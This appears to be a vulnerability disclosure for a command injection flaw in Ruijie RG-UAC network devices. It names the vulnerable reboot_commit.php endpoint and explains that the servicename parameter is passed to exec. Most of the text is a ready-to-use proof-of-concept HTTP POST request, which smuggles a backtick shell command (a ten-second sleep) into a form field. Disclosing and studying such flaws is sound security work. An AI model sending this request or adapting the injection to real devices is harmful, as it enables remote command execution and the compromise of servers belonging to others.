 Ruijie Network is a professional network manufacturer with a full range of network equipment products and solutions including switches, routers, software, security firewalls, wireless products, storage, etc.

There is a command execution vulnerability in Ruijie RG-UAC. Attackers exploit vulnerabilities to compromise servers.

official：https://www.ruijie.com.cn


version:full version

/view/systemConfig/reboot/reboot_commit.php
The key code is marked, the variable $rebootmode is not equal to 1, and $servicename is controllable, directly substituted into exec, resulting in rce vulnerability.
<img width="590" alt="图片" src="https://github.com/L1OudFd8cl09/CVE/assets/171104034/9a5ecf6c-e275-4b32-b391-b4936b5e4629">


Login background, construct poc, successfully verify rce vulnerability

poc：
POST /view/systemConfig/reboot/reboot_commit.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=f8a12a507141292b1dabce52b88335da
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 45

rebootmode=222&servicename==`sleep${IFS}10`;1

<img width="599" alt="图片" src="https://github.com/L1OudFd8cl09/CVE/assets/171104034/a6ace9ed-dead-4531-8e8d-7252c83e9bd6">
